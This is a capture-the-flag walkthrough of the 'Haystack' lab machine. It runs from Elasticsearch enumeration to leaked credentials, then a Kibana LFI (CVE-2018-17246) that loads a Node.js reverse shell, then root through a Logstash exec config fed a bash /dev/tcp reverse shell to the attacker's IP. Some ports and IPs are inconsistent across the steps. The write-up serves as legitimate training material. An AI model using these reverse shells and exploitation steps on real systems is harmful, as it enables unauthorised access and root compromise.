

## INTIAL ENUMERATION

```shell
nmap -sV -sC 10.129.227.120
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-01 15:40 CET
Stats: 0:02:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 91.57% done; ETC: 15:43 (0:00:15 remaining)
Nmap scan report for 10.129.227.120
Host is up (1.2s latency).
Not shown: 806 filtered tcp ports (no-response), 191 filtered tcp ports (host-prohibited)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 217.64 seconds

```


## WEB PORT 9200

Visiting port 9200 in a web browser shows an ElasticSearch API endpoint:



Asking to AI it shows me a way to enumerate this istance.

I can list the indexes (think database tables) with the following request:

```shell
curl -s http://10.129.227.120:9200/_cat/indices                                                                              
green  open .kibana 6tjAYZrgQ5CwwR0g6VOoRg 1 0    1 0     4kb     4kb
yellow open quotes  ZG2D1IqkQNiNZmi2HRImnQ 5 1  253 0 262.7kb 262.7kb
yellow open bank    eSVpNfCfREyYoVigNWcrMw 5 1 1000 0 483.2kb 483.2kb
```

Now I can enumerate th structure of banks and quotes:

```shell
url -s http://10.129.227.120:9200/bank/_search?pretty
{
  "took" : 2,
  "timed_out" : false,
  "_shards" : {
    "total" : 5,
    "successful" : 5,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1000,
    "max_score" : 1.0,
    "hits" : [
      {
        "_index" : "bank",
        "_type" : "account",
        "_id" : "25",
        "_score" : 1.0,
        "_source" : {
          "account_number" : 25,
          "balance" : 40540,
          "firstname" : "Virginia",
          "lastname" : "Ayala",
          "age" : 39,
          "gender" : "F",
          "address" : "171 Putnam Avenue",
          "employer" : "Filodyne",
          "email" : "virginiaayala@filodyne.com",
          "city" : "Nicholson",
          "state" : "PA"
        }
      },
      {
        "_index" : "bank",
        "_type" : "account",
        "_id" : "44",
        "_score" : 1.0,
        "_source" : {
          "account_number" : 44,
          "balance" : 34487,
          "firstname" : "Aurelia",
          "lastname" : "Harding",
          "age" : 37,
          "gender" : "M",
          "address" : "502 Baycliff Terrace",
          "employer" : "Orbalix",
          "email" : "aureliaharding@orbalix.com",
          "city" : "Yardville",
          "state" : "DE"
        }
      },
      {
        "_index" : "bank",
        "_type" : "account",
        "_id" : "99",
        "_score" : 1.0,
        "_source" : {
          "account_number" : 99,
          "balance" : 47159,
          "firstname" : "Ratliff",
          "lastname" : "Heath",
          "age" : 39,
          "gender" : "F",
          "address" : "806 Rockwell Place",
          "employer" : "Zappix",
          "email" : "ratliffheath@zappix.com",
          "city" : "Shaft",
          "state" : "ND"
        }
      },
    
<snip>
```

So this show only account information. So let me enumerate the `quotes`:

```shell
curl -s http://10.129.227.120:9200/quotes/_search?size=1000 | jq -r

<snip>
	  {
        "_index": "quotes",
        "_type": "quote",
        "_id": "111",
        "_score": 1.0,
        "_source": {
          "quote": "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
        }
      },
     {
        "_index": "quotes",
        "_type": "quote",
        "_id": "45",
        "_score": 1.0,
        "_source": {
          "quote": "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
        }
      },
<snip>
```

I found two base64 strings. I'll decode them:

```shell
echo 'dXNlcjogc2VjdXJpdHkg' | base64 -d          
user: security

echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d
pass: spanish.is.key

```


## USER FLAG

The username and password above work for SSH:

```shell
ssh security@10.129.227.120
The authenticity of host '10.129.227.120 (10.129.227.120)' can't be established.
ED25519 key fingerprint is SHA256:J8TOL2f2yaJILidImnrtW2e2lcroWsFbo0ltI9Nxzfw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.227.120' (ED25519) to the list of known hosts.
security@10.129.227.120's password: 
Permission denied, please try again.
security@10.129.227.120's password: 
Last failed login: Mon Dec  1 11:41:26 -03 2025 from 10.10.16.9 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$
```

That’s enough to grab `user.txt`:

```shell
[security@haystack ~]$ cat user.txt
8b5388bca07b9ce383b175600c5acd09
```


## ROOT FLAG

There isn’t much going on as security user, other than `user.txt`. I do notice another service listening only on localhost.

```shell
[security@haystack home]$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:9200            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5601          0.0.0.0:*               LISTEN     
tcp6       0      0 127.0.0.1:9000          :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 127.0.0.1:9300          :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 127.0.0.1:9600          :::*                    LISTEN     
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
udp        0      0 127.0.0.1:323           0.0.0.0:*                          
udp6       0      0 ::1:323                 :::*                
```

I’ll use SSH port forwarding to give myself access to5601 port from my Kali box.

```shell
ssh -L 5601:127.0.0.1:5601 security@10.129.227.120
security@10.129.227.120's password: 
Last login: Mon Dec  1 11:41:36 2025 from 10.10.16.9
[security@haystack ~]$
```

Now I can go into Firefox and visit `http://127.0.0.1:5601`, and it is a Kibana instance:


There’s a public vulnerability in Kibana. The vulnerability is a LFI that will run an included Javascript file. [This GitHub](https://github.com/mpgn/CVE-2018-17246) also has good details.

I’ll need to create a reverse shell on Haystack. I’ll use the one from the GitHub link above:

```c
[security@haystack tmp]$ cat shell.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8888, "10.10.16.9", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();

```

Now I can trigger it by visiting `http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js`:

```shell
nc -lnvp 443 
Ncat: Version 7.70 ( https://nmap.org/ncat ) 
Ncat: Listening on :::443 
Ncat: Listening on 0.0.0.0:443 
Ncat: Connection from 10.10.10.115. 
Ncat: Connection from 10.10.10.115:55962. 

id 
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
```

From here I lauched pspy and I get this process:

```shell
/bin/java -Xms500m -Xmx500m -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=75 -XX:+UseCMSInitiatingOccupancyOnly -Djava.awt.headless=true -Dfile.encoding=UTF-8 -Djruby.compile.invokedynamic=true -Djruby.jit.threshold=0 -XX:+HeapDumpOnOutOfMemoryError -Djava.security.egd=file:/dev/urandom -cp /usr/share/logstash/logstash-core/lib/jars/animal-sniffer-annotations-1.14.jar:/usr/share/logstash/logstash-core/lib/jars/commons-codec-1.11.jar:/usr/share/logstash/logstash-core/lib/jars/commons-compiler-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/error_prone_annotations-2.0.18.jar:/usr/share/logstash/logstash-core/lib/jars/google-java-format-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/gradle-license-report-0.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/guava-22.0.jar:/usr/share/logstash/logstash-core/lib/jars/j2objc-annotations-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-annotations-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-core-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-databind-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-dataformat-cbor-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/janino-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/jruby-complete-9.1.13.0.jar:/usr/share/logstash/logstash-core/lib/jars/jsr305-1.3.9.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-api-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-core-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-slf4j-impl-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/logstash-core.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.commands-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.contenttype-3.4.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.expressions-3.4.300.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.filesystem-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.jobs-3.5.100.jar:/usr/share/logstas
```

Asking to AI I found configuration file of `Logstash` located at `/etc/logstach/conf.d/`

```shell
ls -l /etc/logstash/conf.d/ 
total 12 
-rw-r-----. 1 root kibana 131 jun 20 10:59 filter.conf 
-rw-r-----. 1 root kibana 186 jun 24 08:12 input.conf 
-rw-r-----. 1 root kibana 109 jun 24 08:12 output.conf
```

#### input.conf

I’ll start with the `input.conf` file:

```
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

It’s a file input, which is looking for any file in `/opt/kibana` that starts with `logstash_`. It will look every 10 seconds. It will mark the type as `execute`.

#### filter.conf

The lines read from `input.conf` will be passed through filters as designated in `filter.conf`:

```
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

So this will look for anything of type `execute` (which things from the previous input will be), and then use this match expression to pull out data. I’ll play with that more in a minute, but it looks like it’s looking for some static strings, and then outputting in a field called `comando`.

#### output.conf

Based on `output.conf`, input of type `execute` will be run using the `exec` plugin. This plugin is typically only used as an input plugin.

```
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

So I can create a new file with a reverse shell:

```shell
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.16.9/443 0>&1'" > /opt/kibana/logstash_elliot
```

After a few seconds:

```shell
nc -lnvp 443 
Ncat: Version 7.70 ( https://nmap.org/ncat ) 
Ncat: Listening on :::443 
Ncat: Listening on 0.0.0.0:443 
Ncat: Connection from 10.10.10.115. 
Ncat: Connection from 10.10.10.115:40238. 
bash: no hay control de trabajos en este shell 

[root@haystack /]# id 
id uid=0(root) gid=0(root) grupos=0(root) contexto=system_u:system_r:unconfined_service_t:s0
```

And I can get `root.txt`:

```shell
cat root.txt 
3f5f727c38d9f70e1d2ad2ba11059d92
```


